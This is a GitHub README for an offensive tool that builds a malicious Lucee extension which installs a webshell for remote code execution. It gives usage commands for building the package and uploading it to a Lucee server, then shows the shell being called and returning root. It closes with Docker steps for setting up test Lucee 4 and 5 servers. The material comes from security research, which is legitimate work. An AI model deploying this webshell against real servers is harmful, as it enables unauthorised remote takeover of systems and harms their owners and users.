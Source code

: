 
## 
### Lucee Web Shells
### Written by Juan Pablo Gomez (https://github.com/JPG0mez) and Will Vandevanter (https://github.com/BuffaloWill)

The work is originally based on research and a blog post here: [LINK]

This repository includes a python script to generate a Lucee extension that will add a webshell for remote code execution. 
It works with Lucee 5 and 4. It should work on Lucee 6 but has not been tested.

1. To use it run the `build` command:

```bash
python3 extension-generator.py build

Auth_code already set: lErs2CC2BdpUtHYW0miiSNncE
Generating LEX package...
webshell/package.lex created.
```

2. Upload `webshell/package.lex` into the Lucee installation. 

3. Then call the webshell with:

```bash
python3 extension-generator.py --url http://localhost:8888 --auth-code lErs2CC2BdpUtHYW0miiSNncE id

uid=0(root) gid=0(root) groups=0(root)
```

### Testing Lucee

The easiest way to test Lucee functionality is with Docker. There are directions below for Lucee 5 and 4:

#### Docker - Lucee 5:

Note, lucee 5 does not ship with a password. You will need to start the server with:

```
docker run --name lucee5 -p 8888:8888 --platform linux/amd64 lucee/lucee:5.3.9.141-nginx
```

After the application finishes loading, there should be a Server page at [Server Login](http://127.0.0.1:8888/lucee/admin/server.cfm) that will mention a password needing to be set. 

This can be done from the cli with:

```
docker exec lucee5 sh -c "echo 'mypassword' > /opt/lucee/server/lucee-server/context/password.txt"
```

After this click "Import File" and you should be able to login.

This blopost also has alternate information on setting the password: 

https://markdrew.io/password-for-lucee-docker

### Docker - Lucee 4 (2018):

Start the server:

```
docker run --name lucee4 -dp 8888:8080 --platform linux/amd64 lucee/lucee4:4.5.5.015
```

Browse to localhost:8888/lucee/admin/server.cfm and set the password.
